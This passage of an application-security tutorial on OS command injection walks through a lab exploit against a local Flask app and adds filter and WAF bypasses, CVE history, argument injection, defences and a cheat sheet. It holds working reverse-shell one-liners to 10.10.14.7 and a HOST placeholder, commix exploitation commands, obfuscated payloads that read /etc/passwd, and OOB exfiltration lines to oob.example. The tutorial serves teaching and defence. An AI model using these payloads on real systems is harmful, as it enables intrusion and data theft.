/usr/bin/nc
/usr/bin/python3
/usr/bin/bash
```

`nc`, `python3`, and `bash` are present → several reverse-shell options.

### 10.6 Step 5 — reverse shell

Start a listener on your box:

```bash
nc -lvnp 4444
```

Fire the payload (URL-encoded). Because a shell is parsing our input, we can use any standard
reverse shell. A robust, portable one:

```text
host = 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'
```

URL-encoded:

```bash
curl -s "http://127.0.0.1:5000/ping?host=127.0.0.1;bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.10.14.7/4444%200%3E%261'"
```

Listener:

```text
Connection received on 127.0.0.1 55214
labuser@lab:/app$ id
uid=1000(labuser) gid=1000(labuser) groups=1000(labuser)
labuser@lab:/app$
```

Then **stabilise the TTY** (from the Exploitation notebook):

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z ; stty raw -echo; fg ; export TERM=xterm
```

Alternative one-liners if `bash /dev/tcp` is unavailable:

```bash
# netcat with -e
; nc 10.10.14.7 4444 -e /bin/sh
# netcat without -e (mkfifo)
; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 4444 >/tmp/f
# python3
; python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.7",4444));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
```

### 10.7 Step 6 — automate the confirmation with commix

```bash
commix -u "http://127.0.0.1:5000/ping?host=127.0.0.1" -p host --os-cmd="id"
```

```text
[*] Testing connection to the target URL...
[+] Parameter 'host' seems injectable via (results-based) classic technique.
[+] Payload: ;id
[+] The command execution output is: 'uid=1000(labuser) gid=1000(labuser) ...'
```

`--os-shell` would drop you into an interactive pseudo-shell over the same primitive.

**Minimal-proof discipline:** on a real engagement, the `id` output plus one OOB callback is
usually sufficient proof. Do not drop reverse shells, exfiltrate real data, or pivot unless your
rules of engagement explicitly allow it.

---

## Part 11: Filter and WAF Bypass

Applications and WAFs commonly try to block command injection by stripping or rejecting
metacharacters, spaces, or keyword names. Because the shell offers many equivalent ways to express
the same thing, blacklists are notoriously leaky. Each technique below substitutes one shell
semantic for a blocked one — the same mindset as the SQLi tamper chapter.

### 11.1 Bypassing blocked spaces

Spaces are a favourite thing to strip. Alternatives that a shell treats as word separators or that
avoid spaces entirely:

```bash
# ${IFS} — the Internal Field Separator (defaults to space/tab/newline)
cat${IFS}/etc/passwd
cat${IFS}${IFS}/etc/passwd          # multiples collapse fine
# $IFS$9  — $9 is an unset positional param -> empty, terminates the var name cleanly
cat$IFS$9/etc/passwd
# Brace expansion adds its own separators (bash)
{cat,/etc/passwd}
# Tab via ANSI-C quoting or literal %09
X=$'\t';cat$X/etc/passwd
# Redirection can remove the need for a space
cat</etc/passwd
```

| Blocked | Replace with | Notes |
|---|---|---|
| space | `${IFS}`, `$IFS$9`, `%09` (tab), `{a,b}` | `${IFS}` is the most portable |
| `/` | `${HOME:0:1}`, `$(echo /)`, `${PATH:0:1}` | derive a slash from an env var |
| `;` | `%0a` (newline), `&&`, `\|\|`, `\|`, `$( )` | newline is often un-filtered |
| specific keyword `cat` | `ca''t`, `ca""t`, `c\at`, `/bin/c?t`, `${PATH:0:1}bin${PATH:0:1}c?t` | quoting/wildcards defeat literal matches |

### 11.2 Bypassing blocked commands (keyword obfuscation)

The shell removes empty quotes and processes escapes *before* execution, so these all run `cat` but
don't contain the literal string `cat`:

```bash
c''at /etc/passwd          # empty single quotes
c""at /etc/passwd          # empty double quotes
c\at /etc/passwd           # backslash (outside quotes)
ca$@t /etc/passwd          # $@ expands to nothing here
/bin/c?t /etc/passwd       # glob: ? matches one char
/???/c?t /etc/passwd       # glob out the whole path
$(rev<<<'tac') /etc/passwd # build the command name dynamically ('tac' reversed = 'cat')
```

Variable indirection also hides keywords:

```bash
a=c;b=at;$a$b /etc/passwd
CMD=$'\143\141\164';$CMD /etc/passwd   # octal escapes: \143\141\164 = c a t
```

### 11.3 Encoding layers

Decode a payload at runtime so the WAF never sees the plaintext command:

```bash
# base64 -> shell
echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk)
# hex
echo -e "\x63\x61\x74" ...
# xxd/printf reconstruction
$(printf '\x63\x61\x74') /etc/passwd
```

Layer this with transport encoding: URL-encode (`%3B`), double-URL-encode (`%253B`) when a proxy
decodes once, or unicode/overlong forms depending on the stack.

### 11.4 Newline and null injection

```text
host=127.0.0.1%0aid          # %0a (LF) ends the line -> new command
host=127.0.0.1%0d%0aid       # CRLF on some parsers
host=127.0.0.1%00id          # NUL — can truncate on legacy C string handling
```

Newline injection is especially effective where a regex anchors with `$` or validates "one line",
and where `;` and `&` are blocked but `\n` is not.

### 11.5 Windows-specific bypasses

```text
who^ami                    :: ^ is cmd's escape char, ignored -> runs whoami
w"h"o"a"mi                 :: quotes removed by cmd
set x=who&& set y=ami&& %x%%y%   :: variable concatenation
powershell -enc <base64-UTF16LE>  :: encoded command, evades keyword filters
```

### 11.6 Building a bypass empirically

Don't guess the filter — probe it. Send a benign string containing one candidate metacharacter at
a time and watch which get reflected, stripped, or 403'd. That tells you the filter's exact
denylist, and you assemble a payload only from characters that survive. This is the same empirical
method taught for WAF bypass in the SQLi chapter, applied to shell syntax.



---

## Part 12: Real-World Cases and CVEs

Concrete history sharpens intuition for where this class hides. (Study advisories and disclosed
reports; reproduce only in your own lab.)

| Case | Where the shell crept in | Lesson |
|---|---|---|
| **Shellshock** (CVE-2014-6271) | Bash parsed function definitions in environment variables; CGI copied HTTP headers into env vars that a bash CGI then inherited | Data (`User-Agent`) became code the instant bash evaluated the env var: `() { :;}; /bin/cmd` |
| **ImageMagick "ImageTragick"** (CVE-2016-3714) | `convert` passed parts of image files/filenames to a shell via delegates (`https:` handler ran a command) | File *contents* and filenames reached a shell — upload-driven RCE |
| **Ghostscript `-dSAFER` bypasses** (e.g. CVE-2018-16509) | PostScript operators reached OS commands during PDF/PS processing | "Just processing a document" can be code execution |
| **wkhtmltopdf / PDF renderers** | HTML→PDF pipelines shelling out; SSRF/file-read and command chains | Rendering user HTML is executing a program on user input |
| **Countless appliance/SOHO RCEs** (routers, NAS, firewalls, cameras) | "diagnostics"/`ping`/`traceroute` fields in web admin, exactly like Part 1 | Operational endpoints are the perennial hotspot |
| **CI/CD & git hooks** | Repo names, branch names, or commit metadata concatenated into shell build steps | Untrusted VCS metadata is user input |

`log4shell` (CVE-2021-44228) is *not* classic OS command injection (it's JNDI lookup → remote
class loading), but it belongs in your mental model as another "untrusted string reached an
interpreter that did more than string handling" — the same class of confusion, different
interpreter.

**Bug-bounty pattern:** filter disclosed HackerOne/Bugcrowd reports for "command injection" /
"RCE" and note how often the entry point is a file/URL/hostname field on an admin or processing
endpoint, and how the reporter proved impact minimally (a Collaborator DNS hit or `id`), never
with destructive commands.

---

## Part 13: Argument Injection — the Sibling Class

Even when developers correctly use an **argv array** (Path 2 in Part 2) — so no shell parses the
string and classic metacharacters are inert — a related bug can remain: **argument injection**
(CWE-88). Here the attacker cannot start a *new* command, but *can* control extra **arguments/
flags** to the program that is run, and many programs have flags that read/write files or execute
code.



Classic examples:

```bash
# curl: input becomes curl's URL argument, but attacker sneaks flags
input = "-o/var/www/html/shell.php http://evil/shell.php"
# -> curl writes attacker's file into webroot

# tar with a controlled filename -> checkpoint action = RCE
touch -- "--checkpoint=1"; touch -- "--checkpoint-action=exec=sh shell.sh"
tar cf archive *          # tar treats the crafted filenames as options

# find -exec, git -c core.sshCommand=, zip --unzip-command, ssh -o ProxyCommand=
git clone -c core.sshCommand='sh -c id' ...
```

The defense is the same family as for command injection but adds two rules specific to argv:
**validate/allow-list the value** *and* **terminate option parsing with `--`** before user data,
so `-`/`--`-prefixed input can't be read as a flag:

```python
subprocess.run(["curl", "--", user_url])     # -- stops option parsing
subprocess.run(["grep", "--", pattern, file])
```

Argument injection is easy to miss precisely because the "obvious" fix (argv arrays) is already in
place — so test for it whenever user input is a *value* passed to a powerful CLI tool.

---

## Part 14: Detection & Defense Angle

This is the one consolidated defensive section. The through-line: **stop user data from ever being
parsed as shell syntax**, then detect the residual attempts.

### 14.1 Prevention, in priority order



1. **Avoid the shell entirely.** The best fix for a "ping" feature is often a native library
   (resolve/ICMP in-language), not shelling out at all. No subprocess, no bug.

2. **If you must run a program, use an argv API — never a shell string.**

   ```python
   # SAFE: no shell, user value is one literal argument
   subprocess.run(["ping", "-c", "4", host], capture_output=True, timeout=5)
   # DANGEROUS: shell=True re-introduces the interpreter
   subprocess.run(f"ping -c 4 {host}", shell=True)   # <-- never
   ```

   | Language | Safe (argv) | Dangerous (shell string) |
   |---|---|---|
   | Python | `subprocess.run([...])` | `os.system`, `subprocess.*(shell=True)` |
   | Node.js | `execFile("ping",[...])`, `spawn("ping",[...])` | `child_process.exec("...")` |
   | Java | `ProcessBuilder(List<String>)` | `Runtime.exec(String)` shell-wrapped |
   | Ruby | `system("ping","-c","4",h)` (multi-arg) | `` `...` ``, `system("string")` |
   | PHP | `escapeshellarg` + array-style `proc_open` | `system`, `shell_exec`, `` `...` `` |
   | Go | `exec.Command("ping","-c","4",h)` | `exec.Command("sh","-c",str)` |

3. **Allow-list, don't deny-list.** Validate against what the value *must* be (e.g. a hostname
   regex `^[a-zA-Z0-9.-]+$`, or an enum of permitted operations), and reject everything else.
   Denylisting metacharacters loses to Part 11 every time.

4. **Terminate option parsing (`--`)** and never let user input be interpreted as a flag
   (defends the argument-injection sibling class).

5. **Least privilege & isolation.** Run the worker as an unprivileged user, in a container/jail
   with no outbound network unless required, read-only filesystem where possible, and dropped
   capabilities — so even a successful injection yields little.

6. **If you are truly forced to build a shell string** (avoid this), escape *every* user value
   with the platform's escaper (`escapeshellarg`, `shlex.quote`) — but treat this as a last resort,
   because escaping bugs are common and one missed value is full RCE.

### 14.2 Detection & telemetry (blue team)

Because prevention can regress, monitor for the *effects*:

- **Anomalous process lineage.** A web/app process (`www-data`, `apache`, `w3wp`/`IIS APPPOOL`,
  `node`) spawning `sh`, `bash`, `cmd.exe`, `powershell`, `whoami`, `id`, `nslookup`, `curl`,
  `nc`, `ping`, or `python` is high-signal. On Linux, `auditd`/`execve` logging or eBPF (Falco);
  on Windows, **Sysmon Event ID 1** (process creation) with parent-child rules and Event ID 3
  (network connections from unexpected processes).
- **Unexpected outbound DNS/HTTP from server processes** — the OOB callbacks from Part 8. A rule
  for "app service resolving a never-before-seen external domain" catches most blind exploitation.
- **WAF rules** (e.g. OWASP CRS command-injection rules 932xxx) as defense-in-depth — useful for
  slowing and alerting, but *not* a primary control, since Part 11 exists.
- **Application logs** showing shell metacharacters or `;id`, `$(`, `%0a`, `${IFS}` in parameters
  that should be hostnames/filenames.

```mermaid
sequenceDiagram
    participant U as Attacker
    participant App as Web app
    participant OS as OS / EDR
    participant SOC as SOC
    U->>App: param = "127.0.0.1;curl http://evil/"
    App->>OS: www-data spawns sh -c "...curl..."
    OS->>SOC: Sysmon/auditd: www-data -> sh -> curl (anomalous lineage)
    OS->>SOC: outbound HTTP to unknown domain
    SOC->>SOC: correlate -> RCE alert, isolate host
```

- **IR use case:** on a suspected compromise, pull process-creation logs for the web user and grep
  for shell spawns and network tools around the alert time; the parameter that carried the payload
  is usually still in the web server access log.

---

## Part 15: Common Pitfalls

- **Wrong platform syntax.** Sending `;id` (Linux) to a `cmd.exe` target (needs `& whoami`), or
  brace/`${IFS}` (bash) to a `dash` `/bin/sh`. Fingerprint first (Part 6).
- **Not URL-encoding metacharacters.** `;`, `|`, `&`, space, and newline must be `%3B %7C %26 %20
  %0a` in a URL/query or a proxy/browser will eat or misroute them.
- **Assuming no output means no execution.** Most real bugs are blind — always follow a failed
  in-band probe with time-based and OOB tests before concluding "not vulnerable."
- **Coincidental delays read as time-based hits.** Confirm with two different sleep values so the
  delay tracks your number; re-run to rule out a flaky endpoint.
- **Input lands quoted and you forget to break out.** Try both breakout (`'`, `"`) *and*
  substitution (`$( )`, backticks — which work *inside* double quotes without breakout).
- **Denylist fixes.** As a defender, stripping `; & |` feels like a fix but ignores newline,
  `$(...)`, `${IFS}`, globbing, and encoding. Use argv APIs + allow-lists.
- **Destructive proof.** Never prove RCE with `rm`, data exfiltration of real records, or a
  persistent shell on a bounty target — an `id` or a benign OOB callback is enough and keeps you
  in-scope and legal.
- **Ignoring argument injection.** "We use argv arrays" is not the end of the story if the input is
  a value passed to a flag-rich tool (Part 13).

---

## Part 16: Final Revision / Summary

- **OS command injection** = untrusted input reaches an **OS shell** and is parsed as *code*, not
  data → arbitrary command execution as the server process (CWE-78). Usually the highest-severity
  web finding.
- The bug exists because an API handed a **single string to a shell** (`system`, `shell_exec`,
  `shell=True`, `exec(String)`, `child_process.exec`). Using an **argv array** (Path 2) removes
  the classic primitive.
- The shell's power *is* the attack surface: **separators** (`; \n && || & |`), **substitution**
  (`` `...` ``, `$( )`), **quoting**, **expansions** (`${IFS}`, `{a,b}`, globs), and **redirection**.
- **Methodology:** map inputs → baseline → in-band probe (`;id`, `$((13*17))` marker) → if silent,
  **time-based** (`sleep`, `ping -c`) → then **OOB/OAST** (DNS/HTTP callback with a unique
  subdomain) → fingerprint → escalate minimally.
- **Blind is the norm.** Time-based confirms execution; **out-of-band over DNS** confirms *and*
  exfiltrates even when HTTP egress is blocked.
- **Filter bypass** substitutes equivalent shell semantics: `${IFS}`/`$IFS$9` for spaces, quote/
  backslash/glob obfuscation for keywords, `$( )`/newline for `;`, and base64/hex decode-at-runtime
  layers — probe the filter empirically and build only from surviving characters.
- **Tooling:** Burp Repeater/Intruder + Collaborator, interactsh for OAST, **commix** for
  automated detection/exploitation, arjun/ffuf to find hidden params and endpoints.
- **Argument injection** (CWE-88) is the sibling class: argv is safe from metacharacters but not
  from injected **flags** — validate values and terminate options with `--`.
- **Defense:** avoid the shell → argv APIs (never `shell=True`) → allow-list input → `--` +
  least privilege/isolation → detect anomalous child processes and outbound DNS/HTTP.

---

## Part 17: Cheat Sheet / Quick Reference

**Confirmation payloads (Linux)**

```text
;id            |id            &&id           ||id
`id`           $(id)          %0aid          ;id 2>&1
;echo CIT-$((13*17))-INJ      # benign unique marker -> CIT-221-INJ
```

**Confirmation payloads (Windows)**

```text
& whoami       && ver         | whoami        & hostname
$(whoami)      (PowerShell)    | powershell -c whoami
```

**Blind — time-based**

```text
;sleep 10      $(sleep 10)     ||sleep 10       ;ping -c 11 127.0.0.1
Windows: & ping -n 11 127.0.0.1  |  & timeout /t 10  |  Start-Sleep 10
```

**Blind — OOB / exfil (id = unique subdomain)**

```text
;nslookup id.oob.example
;curl http://id.oob.example/
;nslookup $(whoami).oob.example
;curl http://oob.example/?d=$(id|base64 -w0)
```

**Space bypass**

```text
${IFS}   $IFS$9   %09(tab)   {cat,/etc/passwd}   cat</etc/passwd
```

**Keyword bypass**

```text
c''at  c""at  c\at  /bin/c?t  /???/c?t  $(rev<<<tac)  a=c;b=at;$a$b
```

**Separator bypass**

```text
%0a (newline)   &&   ||   |   $( )
```

**Reverse shells (Linux)**

```bash
bash -c 'bash -i >& /dev/tcp/HOST/PORT 0>&1'
nc HOST PORT -e /bin/sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc HOST PORT >/tmp/f
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("HOST",PORT));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

**commix**

```bash
commix -u "URL?p=1" -p p --os-cmd="id"
commix -r req.txt --os-shell
commix -u "URL" --technique=t --tamper=space2ifs,randomcase --proxy=http://127.0.0.1:8080
```

**Safe-coding one-liners**

```python
subprocess.run(["ping","-c","4",host], timeout=5)          # argv, no shell
subprocess.run(["curl","--",url])                          # -- stops option parsing
```

**Detection signals:** web-user process → `sh`/`cmd`/`whoami`/`id`/`curl`/`nc`/`nslookup`;
outbound DNS/HTTP from app process to unknown domain; `;`, `$(`, `${IFS}`, `%0a` in
hostname/filename params. Sysmon EID 1/3, auditd `execve`, Falco.

---

## Part 18: Practice Labs & Resources

Train this exact skill, not generic "web hacking":

- **PortSwigger Web Security Academy — OS command injection labs (free):** work the whole track —
  *"OS command injection, simple case"* (in-band), *"Blind OS command injection with time delays"*,
  *"...with output redirection"* (write output to the webroot and read it), and *"...with
  out-of-band interaction"* + *"...with out-of-band data exfiltration"* (uses Collaborator/DNS).
  These map one-to-one to Parts 5, 7, and 8 and are the gold standard for methodical practice.
- **TryHackMe:** the *"Command Injection"* room and the *"OWASP Top 10"* command-injection tasks
  walk in-band → blind → OOB with a live target.
- **DVWA:** the "Command Injection" module at *low / medium / high* security reproduces the
  filter-escalation of Part 11 — start unfiltered, then defeat the medium/high denylists using
  `${IFS}`, newline, and keyword obfuscation.
- **OWASP Juice Shop / bWAPP / WebGoat:** additional command-injection challenges of varying
  difficulty for extra reps.
- **HackTheBox:** starting-point and easy web machines that gate on a "ping/diagnostics" or file-
  processing RCE; several require exactly the fingerprint→reverse-shell→TTY-upgrade flow from
  Part 10.
- **commix testbed:** run commix against your own local vulnerable app (like Part 10's Flask
  target) with `--proxy` into Burp to *watch* every payload it emits — the fastest way to stop
  treating it as a black box.
- **interactsh / Burp Collaborator:** stand up an OAST listener and practise DNS-based
  confirmation and exfiltration against your lab until callbacks are second nature.
- **HackerOne / Bugcrowd disclosed reports:** filter public reports for "command injection" and
  "RCE" and study the entry points (file/URL/hostname fields, admin diagnostics) and how reporters
  proved impact minimally — pattern-matching real reports is how you learn what a triager expects.

Chapter 5 of this notebook moves from injection into a shell to **injection into other
interpreters** — the broader template/expression/LDAP/XPath injection family — where the same
"untrusted data reaches an interpreter that does more than string handling" instinct you've now
built for shells applies to entirely new evaluation engines.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/appsec-injection/04-os-command-injection), with comments and the latest edits.*
